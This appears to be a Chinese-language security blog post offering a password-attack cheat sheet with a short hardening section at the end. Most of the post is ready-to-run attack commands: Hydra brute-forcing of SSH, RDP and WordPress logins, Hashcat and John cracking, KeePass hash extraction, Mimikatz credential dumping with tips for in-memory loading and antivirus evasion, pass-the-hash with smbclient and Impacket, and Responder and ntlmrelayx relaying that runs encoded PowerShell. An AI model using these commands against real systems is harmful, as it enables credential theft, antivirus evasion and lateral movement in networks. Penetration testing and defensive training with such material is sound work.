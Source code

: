 ```yaml
---
title: 密码攻击攻防指南 # 从 Astro 的 title 转换
date: 2025/03/20 09:00:00 # 从 Astro 的 published 转换，并添加一个默认时间 (例如，早上9点)，使用您指定的日期格式
# updated: YYYY/MM/DD HH:MM:SS # 可选，如果文章有更新日期，可以添加此字段
description: 本文介绍了密码攻击的各种技术和防御方法。 # 从 Astro 的 description 转换
cover: /images/cover13.jpg # 从 Astro 的 image 转换，注意路径前添加 '/' 表示根目录，并假设 cover13.jpg 放在 images 目录下
tags: # 从 Astro 的 tags 转换
  - 安全
  - 密码
  - 攻防
categories: # 从 Astro 的 category 转换，Hexo 常用 categories (复数)
  - 安全
# 以下是 Redefine 主题特有或常用的可选字段，根据您的需求选择性添加
# author: 您的名字 # 可选，如需显示文章作者
# avatar: /img/your-avatar.png # 可选，如需显示作者头像
# password: your_secret_password # 文章加密，根据需要添加
# message: 本文已加密，请输入密码。 # 加密提示信息
# encrypt_abstract: 加密文章摘要。
# sticky: 1 # 置顶文章，数值越大优先级越高
# comment: true # 是否开启评论，默认开启
# toc: true # 是否显示目录，默认开启
# math: false # 是否开启数学公式，默认关闭
# mermaid: false # 是否开启 Mermaid 图表，默认关闭
---
```

## 一、网络服务登录爆破
### 1.1 SSH/RDP密码爆破
```bash
# Hydra基础语法（支持多协议）
sudo hydra -L <用户名字典> -P <密码字典> [-s 端口] <协议类型>://<目标IP>

# 示例：SSH爆破
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.1.10

# RDP爆破（需确认目标开启RDP）
sudo hydra -L users.txt -P pass.txt rdp://192.168.1.20
```
**注意事项：**
- 推荐使用 `-t` 参数控制并发线程（默认16）
- 爆破成功后自动输出结果，可使用 `-o` 指定输出文件
- Windows系统建议使用 `xfreerdp` 验证RDP连接

### 1.2 HTTP表单爆破
```bash
# 基础语法
sudo hydra <IP> http-post-form "<路径>:<POST数据>:<失败特征>"

# 示例：WordPress登录爆破
sudo hydra 192.168.1.100 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username"
```
**参数说明：**
- `^USER^` 和 `^PASS^` 为占位符
- 失败特征需通过分析响应报文确定
- 建议使用 `-V` 参数显示详细输出

## 二、本地密码爆破与规则优化
### 2.1 工具链组合
```mermaid
flowchart TD
    A[获取哈希文件] --> B(John)
    A --> C(Hashcat)
    B --> D{破解成功?}
    C --> D
    D -->|是| E[获取明文]
    D -->|否| F[规则优化]
```
**工具选择：**

- `John`：适合快速破解简单密码，支持规则扩展
- `Hashcat`：GPU加速，支持模式更多（包括最新加密算法）

### 2.2 密码规则语法
```bash
# 示例规则文件 myrules.rule
:
c $1$!	# 首字母大写 + 尾部添加"1!"
?d >2	# 当密码长度>2时添加数字后缀
```
**常用操作符：**
- `:` 规则起始符
- `c` 首字母大写
- `$` 尾部追加字符
- `?l` 插入小写字母
- `sXY` 替换X为Y

### 2.3 Keepass破解
```bash
# 提取哈希
keepass2john Database.kdbx > hash.txt

# Hashcat破解
hashcat -m 13400 hash.txt /usr/share/wordlists/rockyou.txt
```

## 三、NTLM攻击体系
### 3.1 哈希获取技术
```powershell
# Mimikatz标准流程
privilege::debug
token::elevate
sekurlsa::logonpasswords
lsadump::sam
```
**防御规避：**
- 使用内存加载执行：`Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'`
- 配合进程注入技术绕过杀软

### 3.2 哈希传递攻击
**SMB协议利用：**
```bash
smbclient //192.168.1.50/C$ -U Administrator --pw-nt-hash aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
```

**命令执行：**
```bash
# psexec横向移动
impacket-psexec -hashes LMHASH:NTHASH Administrator@192.168.1.50

# wmiexec无文件执行
impacket-wmiexec -hashes :NTHASH Administrator@192.168.1.50
```

### 3.3 Net-NTLMv2攻击
**Responder嗅探：**
```bash
sudo responder -I eth0 -dwPv
```
**中继攻击（需禁用SMB签名）：**
```bash
impacket-ntlmrelayx -tf targets.txt -smb2support -c "powershell -enc <BASE64_CMD>"
```
**PowerShell命令加密：**
```bash
echo 'Get-Process' | iconv -t UTF-16LE | base64 -w 0
# 输出：RwBlAHQALQBQAHIAbwBjAGUAcwBzAA==
```

## 四、防御加固建议
1. **网络层防护**
   - 启用SMB签名（Group Policy: Computer > MS > MS > Require security signature）
   - 禁用NTLMv1，强制使用Kerberos认证

2. **系统层加固**
   ```powershell
   # 启用Credential Guard
   Enable-WindowsOptionalFeature -Online -FeatureName Windows-Defender-CredentialGuard
   # 限制WMI执行权限
   Set-NetFirewallRule -DisplayName "Windows Management Instrumentation (WMI)" -Action Block
   ```

3. **监控策略**
   - 监控Event ID 4624（登录类型3的网络登录）
   - 建立哈希异常检测机制（如突然出现大量NTLMv1请求）

## 扩展学习
1. **Hashcat模式速查表**：[hashcat.net/wiki/doku.php?id=example_hashes]
2. **Impacket官方示例**：[github.com/SecureAuthCorp/impacket/tree/master/examples]
3. **Active Directory安全手册**：[adsecurity.org]